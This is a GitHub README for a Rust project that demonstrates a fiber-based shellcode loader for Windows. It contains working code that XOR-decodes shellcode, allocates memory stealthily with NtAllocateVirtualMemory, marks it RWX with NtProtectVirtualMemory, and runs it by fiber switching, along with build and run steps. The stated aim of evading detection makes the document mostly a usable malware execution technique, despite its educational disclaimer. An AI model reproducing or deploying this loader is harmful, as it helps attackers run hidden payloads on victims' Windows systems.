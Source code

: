 # Fiber Injection in Rust

## Overview

This project demonstrates a **fiber-based shellcode injection technique** in Rust, leveraging Windows API calls and `ntapi` functions. The method uses `NtAllocateVirtualMemory` for stealthy memory allocation and **Fiber Switching** for execution.

## Features

- Uses **XOR encryption** for shellcode obfuscation.
- Allocates memory using `NtAllocateVirtualMemory` for stealth.
- Uses `NtProtectVirtualMemory` to set memory to `RWX`.
- Executes payload via **fiber switching** using `CreateFiberEx`.
- Alternative method: `HeapAlloc` for simple memory allocation.

## Prerequisites

- **Rust toolchain** installed
- **Windows OS** (Required for Windows API calls)
- `ntapi` and `windows` crates

## Installation

Clone the repository:

```sh
 git clone https://github.com/yourusername/fiber_injection.git
 cd fiber_injection
```

Install dependencies:

```sh
cargo build --release
```

## Code Breakdown

### **1. XOR Shellcode Decryption**

```rust
fn xor_decode(buf: &[u8], key: u8) -> Vec<u8> {
    buf.iter().map(|x| x ^ key).collect()
}
```

- Loads **encoded shellcode** and decrypts it using an XOR key.

### **2. Allocating Virtual Memory (Stealth Mode)**

```rust
unsafe fn allocate_stealthy_virtual_memory(shellcode: &[u8]) -> *mut u8 {
    let mut base_address: *mut c_void = null_mut();
    let mut region_size: usize = shellcode.len();

    let status = NtAllocateVirtualMemory(
        NtCurrentProcess,
        &mut base_address as *mut _,
        0,
        &mut region_size,
        MEM_COMMIT.0 | MEM_RESERVE.0,
        PAGE_READWRITE.0,
    );

    if status != 0 {
        panic!("NtAllocateVirtualMemory failed! Status: {:#x}", status);
    }

    std::ptr::copy_nonoverlapping(shellcode.as_ptr(), base_address as *mut u8, shellcode.len());

    if !set_executable(base_address as *mut u8, shellcode.len()) {
        panic!("Failed to change memory permissions to RWX!");
    }

    base_address as *mut u8
}
```

- Allocates memory with `NtAllocateVirtualMemory`.
- Copies the shellcode into allocated memory.
- Calls `set_executable()` to mark the region as `RWX`.

### **3. Making Memory Executable**

```rust
unsafe fn set_executable(mem_ptr: *mut u8, size: usize) -> bool {
    let mut address: *mut _ = mem_ptr as *mut _;
    let mut region_size = size;
    let mut old_protection: u32 = PAGE_READWRITE.0;

    let _ = NtProtectVirtualMemory(
        NtCurrentProcess,
        &mut address,
        &mut region_size,
        PAGE_EXECUTE_READWRITE.0,
        &mut old_protection,
    );
    true
}
```

- Uses `NtProtectVirtualMemory` to change protection to `RWX`.

### **4. Executing Shellcode via Fiber Switching**

```rust
let buf_ptr: LPFIBER_START_ROUTINE = std::mem::transmute(shellcode_ptr);

// Create a Fiber for Execution
let hijacked_fiber = CreateFiberEx(0, 0, 0, buf_ptr, None);
if hijacked_fiber.is_null() {
    panic!("CreateFiberEx failed!");
}

// Convert the Main Thread into a Fiber
let primary_fiber = ConvertThreadToFiber(None);
if primary_fiber.is_null() {
    panic!("ConvertThreadToFiber failed!");
}

// Execute via Fiber Switching
SwitchToFiber(hijacked_fiber);
```

- Converts the thread into a **fiber** and switches execution to shellcode.

## Running the Program

1. Ensure your shellcode is encoded using XOR and placed as `encoded_shellcode.bin` in the project root.
2. Compile and execute:

```sh
cargo run --release
```

## Disclaimer

This project is intended for **educational and research purposes only**. Unauthorized use of this code for malicious activities is strictly prohibited.

## License

[MIT License](LICENSE)

